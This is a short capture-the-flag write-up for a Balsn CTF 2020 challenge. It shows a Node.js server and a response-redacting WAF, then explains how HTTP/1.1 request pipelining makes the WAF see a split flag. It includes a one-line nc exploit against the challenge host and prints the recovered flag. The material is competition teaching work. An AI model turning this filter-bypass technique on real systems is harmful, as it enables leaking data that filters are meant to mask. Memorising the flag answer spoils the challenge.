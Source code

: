 # Transformer: The Guardian Knight - Balsn CTF 2020 (misc, 626p, 10 solved)
## Introduction

This challenge implements a web server in NodeJS.

This web server sends a flag :
```javascript
const server = http.createServer((req, res) => {
    res.writeHead(200, { 'Content-Type': 'text/plain' });
    res.end(`The flag is ${flag}.`);
});
```

There is a Web-Application Firewall that prevents the flag from being sent :
```javascript
class WAF extends Transform {
    _transform (data, encoding, callback) {
        data = data.toString('ascii').replace(/BALSN{([^}]*)/g, (m, c) =>
            'BALSN{' + Array(c.length).fill('REDACTED_').join('').slice(0, c.length)
        )
        callback(null, data)
    }
};
```

## Attack

HTTP/1.1 supports requests pipelining, e.g. it is possible to send multiple
requests before the server sends a response.

Answering to a lot of requests will fill an internal buffer on the server. The
WAF will then read from this buffer. Since only a fixed number of bytes will be
read by the WAF, it is possible to fill this buffer up to a point where the WAF
will read an incomplete flag. The filter will thus not mask the flag.

```shell
yes $'GET / HTTP/1.1\r\n\r' | nc waf.balsnctf.com 8889 \
	| fgrep flag \
	| fgrep -v REDACTED
```

**Flag**: `BALSN{!+-WTF_is_this_WAF-+!}`
